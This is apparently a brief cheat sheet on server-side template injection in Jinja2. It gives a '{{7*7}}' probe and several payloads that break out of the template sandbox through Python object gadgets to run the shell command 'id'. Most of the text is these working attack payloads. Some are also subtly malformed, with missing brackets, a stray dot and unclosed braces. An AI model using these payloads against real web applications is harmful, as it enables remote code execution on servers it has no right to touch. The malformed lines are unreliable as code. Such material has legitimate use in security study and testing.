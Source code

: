# Server side template injection
 
A very common way to identify if a web page is vulnerable to SSTI is to try and input the expression '{{7*7}}'

If the server returns 49, you know the server interprets the code.

Some frameworks have security trying to prevent users from doing malicious stuff.

Jinga for example will prevent the user from using this payload:

    {{ import os;os.system('id') }}
    
Thanks jinja.

workaround:

    {{ .__class__.__base__.__subclasses__()[141].__init__.__globals__['sys'].modules['os'.popen("id").read() }}
    
or

    {{ url_for.__globals__.os.popen("id").read() }}
    
Gadgets. In python, everything is an object.


    {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()
 
 
